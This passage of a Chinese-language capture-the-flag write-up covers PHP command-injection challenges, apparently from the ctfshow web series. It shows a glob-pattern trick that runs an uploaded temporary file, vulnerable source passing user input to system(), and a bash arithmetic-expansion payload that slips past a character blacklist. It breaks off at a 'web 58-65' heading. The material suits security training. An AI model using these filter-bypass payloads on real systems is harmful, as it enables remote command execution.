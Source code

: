 

注：这里为什么要传参数，以及参数内容为什么是  .%20/???/????????[@-[] ,P神的文章已经写的很详细了

![](http://img.npfs06.top/20210225161405.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](http://img.npfs06.top/20210225161419.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

1.php就是我们上传的可控的文件，我们传的参数c的值为 . /bin/phpXXXXXX，意思就是说匹配上传1.php文件所生成的临时文件，并执行之



可以看到flag.php文件，

![](http://img.npfs06.top/20210225161433.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

用cat命令读取文件即可



## web 57

```php
<?php

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

emmmmmmmm 不会

payload奉上：

```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```



![](http://img.npfs06.top/20210225161449.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## web 58-65
